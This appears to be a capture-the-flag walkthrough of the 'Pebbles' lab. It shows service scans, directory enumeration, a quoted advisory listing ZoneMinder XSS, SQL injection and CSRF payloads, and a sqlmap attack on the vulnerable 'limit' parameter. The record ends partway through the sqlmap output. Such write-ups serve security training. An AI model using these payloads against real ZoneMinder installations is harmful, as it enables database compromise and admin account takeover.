


# Pebbles

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Easy
Community Rating: Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 1
Lab Description:
This lab demonstrates exploiting a SQL injection vulnerability in the ZoneMinder web application to gain database access. 
Learners will leverage misconfigured database privileges and use a User Defined Function (UDF) to execute operating 
system commands as root. The lab culminates in deploying a reverse shell, achieving complete control of the target system.
Released: 3 Aug 2020
Retired: 18 May 2022
```

Machine link: [https://portal.offsec.com/machine/pebbles-304/overview/details](https://portal.offsec.com/machine/pebbles-304/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ export TARGET_IP=192.168.246.52

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ sudo nmap -sC -sV -p- $TARGET_IP                
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-08 08:05 +0200
Nmap scan report for 192.168.246.52
Host is up (0.030s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
|_  256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Pebbles
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Tomcat
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Apache Tomcat
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.41 seconds
```

We have two TCP-services running and available:

- vsftpd 3.0.3 on port 21
- OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 on port 22
- Apache httpd 2.4.18 on port 80, 3305 and 8080

Apache Tomcat seems to be running at port 8080 and no anonymous access to the FTP-server reported.

We also do an UDP-scan of the top 100 ports but find nothing

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-08 08:10 +0200
Nmap scan report for 192.168.246.52
Host is up (0.030s latency).
All 100 scanned ports on 192.168.246.52 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1220.00 seconds
```

### Check the web sites

Browsing manually to port 80 we find a login page


On port 3305 we find an `Apache2 Ubuntu Default Page`.

And we confirm that Tomcat is indeed running on port 8080



A scan with `whatweb` gives us the following information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ whatweb -a3 http://$TARGET_IP      
http://192.168.246.52 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[192.168.246.52], PasswordField[password], Title[Pebbles]

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ whatweb -a3 http://$TARGET_IP:3305
http://192.168.246.52:3305 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[192.168.246.52], Title[Apache2 Ubuntu Default Page: It works]

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ whatweb -a3 http://$TARGET_IP:8080
http://192.168.246.52:8080 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[192.168.246.52], Title[Tomcat]
```

We also scan for additional interesting files and directories with gobuster on all web ports

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP     
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.246.52
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 1134]
/images               (Status: 200) [Size: 1147]
/css                  (Status: 200) [Size: 933]
/javascript           (Status: 403) [Size: 279]
/zm                   (Status: 200) [Size: 6779]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP:3305 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.246.52:3305
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 281]
/index.html           (Status: 200) [Size: 11321]
/.html                (Status: 403) [Size: 281]
/javascript           (Status: 403) [Size: 281]
/zm                   (Status: 200) [Size: 6778]
/.php                 (Status: 403) [Size: 281]
/.html                (Status: 403) [Size: 281]
/server-status        (Status: 403) [Size: 281]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP:8080
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.246.52:8080
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 281]
/.html                (Status: 403) [Size: 281]
/index.php            (Status: 200) [Size: 11074]
/javascript           (Status: 403) [Size: 281]
/hello.php            (Status: 200) [Size: 486]
/zm                   (Status: 200) [Size: 6782]
/.html                (Status: 403) [Size: 281]
/.php                 (Status: 403) [Size: 281]
/server-status        (Status: 403) [Size: 281]
/RELEASE-NOTES.txt    (Status: 200) [Size: 7072]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

On `http://192.168.246.52/zm/index.php` we find a ZoneMinder Console



And on `http://192.168.246.52:8080/hello.php` we get this strange output


### Search for exploit(s)

We check if there are any nice exploits available for ZoneMinder

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ searchsploit zoneminder           
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ZoneMinder 1.24.3 - Remote File Inclusion                                                                                                                       | php/webapps/17593.txt
Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injection / Session Fixation / Cross-Site Request Forgery                                                     | php/webapps/41239.txt
ZoneMinder 1.32.3 - Cross-Site Scripting                                                                                                                        | php/webapps/47060.txt
Zoneminder < v1.37.24 - Log Injection & Stored XSS & CSRF Bypass                                                                                                | php/webapps/51071.py
ZoneMinder Snapshots < 1.37.33 - Unauthenticated RCE                                                                                                            | php/webapps/51902.py
ZoneMinder Video Server - packageControl Command Execution (Metasploit)                                                                                         | unix/remote/24310.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Let's check the SQL injection one

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ searchsploit -m 41239   
  Exploit: Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injection / Session Fixation / Cross-Site Request Forgery
      URL: https://www.exploit-db.com/exploits/41239
     Path: /usr/share/exploitdb/exploits/php/webapps/41239.txt
    Codes: N/A
 Verified: False
File Type: HTML document, ASCII text
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Easy/Pebbles/41239.txt


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ cat 41239.txt 
Source: https://www.foxmole.com/advisories/foxmole-2016-07-05.txt

-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA256

=== FOXMOLE - Security Advisory 2016-07-05 ===

Zoneminder multiple vulnerabilities
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Affected Versions
=================
Zoneminder 1.29,1.30

Issue Overview
==============
Vulnerability Type: SQL Injection, Cross Site Scripting, Session Fixation, No CSRF Protection
Technical Risk: high
Likelihood of Exploitation: medium
Vendor: Zoneminder
Vendor URL: https://zoneminder.com/
Credits: FOXMOLE employee Tim Herres
Advisory URL: https://www.foxmole.com/advisories/foxmole-2016-07-05.txt
Advisory Status: Public
CVE-Number: NA
CVE URL: NA
OVE-ID:
OVI-ID:
CWE-ID: CWE-89
CVSS 2.0: 4.3 (AV:N/AC:M/Au:N/C:P/I:N/A:N)


Impact
======
During an internal code review multiple vulnerabilities were identified.
The whole application misses input validation and output encoding.
This means user supplied input is inserted in an unsafe way.
This could allow a remote attacker to easily compromise user accounts or access the database in an unsafe way.

Issue Description
=================
The following findings are only examples there are quite more. The whole application should be reviewed.

All items tested using Firefox

1)Cross Site Scripting (XSS)
Reflected: http://192.168.241.131/zm/index.php?view=request&request=log&task=download&key=a9fef1f4&format=texty9fke%27%3Chtml%3E%3Chead%3E%3C/head%3E%3Cbody%3E%3Cscript%3Ealert(1)%3C%2fscript%3E%3C/body%3E%3C/html%3Eayn2h
Reflected without authentication: http://192.168.241.131/zm/index.php/LSE4%22%3E%3Cscript%3Ealert(1)%3C/script%3ELSE
Stored: Creating a new monitor using the name "Bla<script>alert(1)</script>". There is only a clientside protection.

2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.

3)Session Fixation
After a successful authentication the Session Cookie ZMSESSID remains the same.
Example: Cookie before the login = ZMSESSID=26ga0i62e4e51mhfcb68nk3dg2 after successful login
ZMSESSID=26ga0i62e4e51mhfcb68nk3dg2

4)No CSRF Proctection
A possible CSRF attack form, which changes the password of the admin (uid=1), if the corresponding user activates it.
<html>
  <body>
    <form action="http://192.168.241.131/zm/index.php" method="POST">
      <input type="hidden" name="view" value="user" />
      <input type="hidden" name="action" value="user" />
      <input type="hidden" name="uid" value="1" />
      <input type="hidden" name="newUser&#91;MonitorIds&#93;" value="" />
      <input type="hidden" name="newUser&#91;Username&#93;" value="admin" />
      <input type="hidden" name="newUser&#91;Password&#93;"
value="admin1" />
      <input type="hidden" name="conf&#95;password" value="admin1" />
      <input type="hidden" name="newUser&#91;Language&#93;" value="" />
      <input type="hidden" name="newUser&#91;Enabled&#93;" value="1" />
      <input type="hidden" name="newUser&#91;Stream&#93;" value="View" />
      <input type="hidden" name="newUser&#91;Events&#93;" value="Edit" />
      <input type="hidden" name="newUser&#91;Control&#93;" value="Edit" />
      <input type="hidden" name="newUser&#91;Monitors&#93;" value="Edit" />
      <input type="hidden" name="newUser&#91;Groups&#93;" value="Edit" />
      <input type="hidden" name="newUser&#91;System&#93;" value="Edit" />
      <input type="hidden" name="newUser&#91;MaxBandwidth&#93;" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


Temporary Workaround and Fix
============================
FOXMOLE advises to disable Zoneminder until the vendor publishes a complete fix.


History
=======
2016-07-05  Issue discovered
2016-11-22  Vendor contacted, no response
2016-12-16  Vendor contacted again, still no response
2017-01-17  Vendor contacted --> working on a patch
2017-01-22  Vendor contacted, asked for an update and
            declare advisory release to 2017-02-02 --> no response
2017-02-02  Advisory Release


GPG Signature
=============
This advisory is signed with the GPG key of the FOXMOLE advisories team.
The key can be downloaded here: https://www.foxmole.com/advisories-key-3812092199E3277C.asc


-----BEGIN PGP SIGNATURE-----

iQIzBAEBCAAdFiEEjrQMZqTYqiY2IftqOBIJIZnjJ3wFAliS758ACgkQOBIJIZnj
J3y4Wg//fi1TrOCwVX4DemeKv2Wm4bf+sBlxhyWX6KRolylHYiReSuID+mAZvYyD
UDMQkWcHKzDXTZKvkNXB6h70r3x/pKKR7SmlaNfFDeCbEgChzDaxCmlzcOaXIzSy
D5S0quuT2OdpQmvMWtrMbJrqdP8I3AW5WJt2F5uc796eUEo9HZZuIC8MxzlzKdgR
dLWyE3fPghECsPBFxstGS9M6iUHnQALYAf7KBVnQmDiidNpCRNzUx8l4YolejBT4
8aGfiQZFJDS8caR0NWWpf0stIayJNVCcxziaRAXyf8BkuHQIK5Ccpfy2q1V4hvWw
tn1p7M8hrY+U1mhH6R8zpK+kcZ2WEvUQd4OCJ5fRB9zo+WFK3Hpr/z1iPTA8TPmd
0y3wwyQOmN1rzIwBEoKpRbPXKwK1bgXn9pwVYPOg7aapaePxtWQXL3zihN4BSQNw
NVXHwuNxCCXH9NLB65MC4mopKPq+alVZUj2IJjDp0DuCP4lG2FFiVkUaf49tV0Mg
8f5GUTYuQCQsa8/acpm4NF40Y/vkaJ7SBzJ8T8j5TDqegnhbdEWlp5Ydx/Z2+Gb7
c6ZYeWxNmsShm01yBw0id75hANKdLBUdNdxTXjxvqryQx7kXQ7ua5TA9m4a0378c
3CBpM2Bor0RtFkhedLLRW4p+8aNUSYuj83ExNAbYk6ZkmcZ2q0E=
=kFiq
-----END PGP SIGNATURE-----                                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ 
```

From the exploit information we know that:

- The backend database is MySQL
- The Zoneminder home page (`http://$TARGET_IP/zm/index.php`) is vulnerable to SQLi
- The vulnerable parameter is `limit`

### Try SQLi on the page

We visit the page while Burp is capturing the request in the background and save the POST-requests as the file `post_req.txt`.

To reproduce the situation we need to click the `Log` link in the upper right corner of the web page.

```text
POST /zm/index.php HTTP/1.1
Host: 192.168.246.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
X-Request: JSON
Content-type: application/x-www-form-urlencoded; charset=utf-8
Content-Length: 71
Origin: http://192.168.246.52
Connection: keep-alive
Referer: http://192.168.246.52/zm/index.php?view=log
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=bcviaod9q75g00qviienn0n6j5

view=request&request=log&task=query&limit=100&minTime=1775629310.411151
```

Then we use the file as input to `sqlmap` and provide all the additional information we know

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Pebbles]
└─$ sqlmap -r post_req.txt --os=linux --dbms=mysql -p limit
        ___
       __H__                                                                                                                                                                                      
 ___ ___[(]_____ ___ ___  {1.10.2#stable}                                                                                                                                                         
|_ -| . [']     | .'| . |                                                                                                                                                                         
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:07:27 /2026-04-08/

[10:07:27] [INFO] parsing HTTP request from 'post_req.txt'
[10:07:27] [INFO] testing connection to the target URL
[10:07:28] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
[10:07:28] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:07:28] [INFO] testing if the target URL content is stable
[10:07:29] [INFO] target URL content is stable
[10:07:29] [INFO] heuristic (basic) test shows that POST parameter 'limit' might be injectable (possible DBMS: 'MySQL')
[10:07:29] [INFO] heuristic (XSS) test shows that POST parameter 'limit' might be vulnerable to cross-site scripting (XSS) attacks
[10:07:29] [INFO] testing for SQL injection on POST parameter 'limit'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 

[10:07:40] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:07:40] [WARNING] reflective value(s) found and filtering out
[10:07:40] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:07:41] [INFO] testing 'Generic inline queries'
[10:07:41] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[10:07:43] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[10:07:44] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[10:07:46] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[10:07:50] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[10:07:54] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[10:07:57] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[10:08:01] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[10:08:04] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:08:08] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:08:12] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET)'
[10:08:12] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET - original value)'
[10:08:12] [INFO] testing 'MySQL boolean-based blind - Parameter replace (ELT)'
[10:08:12] [INFO] testing 'MySQL boolean-based blind - Parameter replace (ELT - original value)'
[10:08:12] [INFO] testing 'MySQL boolean-based blind - Parameter replace (bool*int)'
[10:08:12] [INFO] testing 'MySQL boolean-based blind - Parameter replace (bool*int - original value)'
[10:08:12] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[10:08:13] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[10:08:13] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[10:08:13] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[10:08:13] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Stacked queries'
[10:08:15] [INFO] testing 'MySQL < 5.0 boolean-based blind - Stacked queries'
[10:08:15] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:08:17] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:08:19] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[10:08:22] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[10:08:24] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[10:08:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[10:08:28] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[10:08:31] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[10:08:33] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[10:08:35] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[10:08:37] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:08:39] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:08:42] [INFO] testing 'MySQL >= 5.0 (inline) error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:08:42] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[10:08:44] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[10:08:46] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:08:48] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[10:08:51] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[10:08:52] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[10:08:53] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[10:08:54] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[10:08:54] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[10:08:54] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[10:08:54] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[10:08:54] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[10:08:54] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[10:08:54] [INFO] testing 'MySQL >= 5.5 error-based - ORDER BY, GROUP BY clause (BIGINT UNSIGNED)'
[10:08:54] [INFO] testing 'MySQL >= 5.5 error-based - ORDER BY, GROUP BY clause (EXP)'
[10:08:54] [INFO] testing 'MySQL >= 5.6 error-based - ORDER BY, GROUP BY clause (GTID_SUBSET)'
[10:08:54] [INFO] testing 'MySQL >= 5.7.8 error-based - ORDER BY, GROUP BY clause (JSON_KEYS)'
[10:08:54] [INFO] testing 'MySQL >= 5.0 error-based - ORDER BY, GROUP BY clause (FLOOR)'
[10:08:54] [INFO] testing 'MySQL >= 5.1 error-based - ORDER BY, GROUP BY clause (EXTRACTVALUE)'
[10:08:54] [INFO] testing 'MySQL >= 5.1 error-based - ORDER BY, GROUP BY clause (UPDATEXML)'
[10:08:54] [INFO] testing 'MySQL >= 4.1 error-based - ORDER BY, GROUP BY clause (FLOOR)'
[10:08:54] [INFO] testing 'MySQL inline queries'
[10:08:55] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[10:09:05] [INFO] POST parameter 'limit' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[10:09:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:09:05] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[10:09:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP)'
[10:09:05] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[10:09:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP - comment)'
[10:09:05] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)'
[10:09:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP - comment)'
[10:09:05] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)'
[10:09:05] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)'
[10:09:05] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query)'
[10:09:05] [INFO] testing 'MySQL < 5.0.12 OR time-based blind (BENCHMARK)'
[10:09:05] [INFO] testing 'MySQL > 5.0.12 OR time-based blind (heavy query)'
[10:09:05] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK - comment)'
[10:09:05] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query - comment)'
[10:09:05] [INFO] testing 'MySQL < 5.0.12 OR time-based blind (BENCHMARK - comment)'
[10:09:05] [INFO] testing 'MySQL > 5.0.12 OR time-based blind (heavy query - comment)'
[10:09:05] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind'
[10:09:06] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind (comment)'
[10:09:06] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind (query SLEEP)'
[10:09:06] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind (query SLEEP - comment)'
[10:09:06] [INFO] testing 'MySQL AND time-based blind (ELT)'
[10:09:06] [INFO] testing 'MySQL OR time-based blind (ELT)'
[10:09:06] [INFO] testing 'MySQL AND time-based blind (ELT - comment)'
[10:09:06] [INFO] testing 'MySQL OR time-based blind (ELT - comment)'
[10:09:06] [INFO] testing 'MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)'
[10:09:06] [INFO] testing 'MySQL >= 5.1 time-based blind (heavy query - comment) - PROCEDURE ANALYSE (EXTRACTVALUE)'
[10:09:06] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace'
[10:09:06] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)'
[10:09:06] [INFO] testing 'MySQL < 5.0.12 time-based blind - Parameter replace (BENCHMARK)'
[10:09:06] [INFO] testing 'MySQL > 5.0.12 time-based blind - Parameter replace (heavy query - comment)'
